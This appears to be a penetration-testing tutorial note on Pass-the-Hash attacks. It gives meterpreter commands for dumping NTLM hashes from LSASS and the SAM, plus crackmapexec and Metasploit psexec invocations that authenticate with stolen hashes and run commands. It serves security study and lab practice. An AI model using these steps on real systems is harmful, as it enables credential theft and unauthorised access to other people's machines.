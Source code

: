# Pass-The-Hash Attacks

## Pass-The-Hash

* Pass-the-hash is an exploitation technique that involves capturing or harvesting NTLM hashes or clear-text passwords and utilizing them to authenticate with the target legitimately.
* We can use multiple tools to facilitate a Pass-The-Hash attack:
  * Metasploit PsExec module
  * Crackmapexec

This technique will allow us to obtain access to the target system via legitimate credentials as opposed to obtaining access via service exploitation.

## Practical Demo

After gaining a meterpreter session as the administrator run:

* <mark style="color:yellow;">pgrep lsass</mark>
* <mark style="color:yellow;">migrate PID</mark>
* <mark style="color:yellow;">load kiwi</mark>
* <mark style="color:yellow;">lsa\_dump\_sam</mark>

Get the Administrator NTLM hash.

### Pass-the-Hash using PSExec module

<mark style="color:purple;">NOTE:</mark> To  perform this using PSExec module you need the LM and NTLM hash...use <mark style="color:red;">hashdump</mark> in meterpreter

Background the meterpreter session, to search for the PSExec module.

* <mark style="color:yellow;">exploit/windows/smb/psexec</mark>: Choose the authenticated one

This module accepts <mark style="color:red;">SMBuser</mark> and <mark style="color:red;">SMBpass</mark>.

You can pass it the <mark style="color:blue;">NTLM/LM</mark> hash as the pass.

<mark style="color:purple;">NOTE:</mark> Be aware to set the <mark style="color:red;">LPORT</mark> to be different from the initial session.

### crackmapexec

We can use this tool to also perform a pass-the-hash attack.

#### Commands:

* <mark style="color:yellow;">crackmapexec smb 'targetIP' -u Administrator -H 'NTLMHASH'</mark>&#x20;

You can also pass a clear text password by changing the <mark style="color:red;">-H</mark> to <mark style="color:red;">-p.</mark>

#### To execute commands add:

* <mark style="color:yellow;">-x 'commandtorun'</mark>
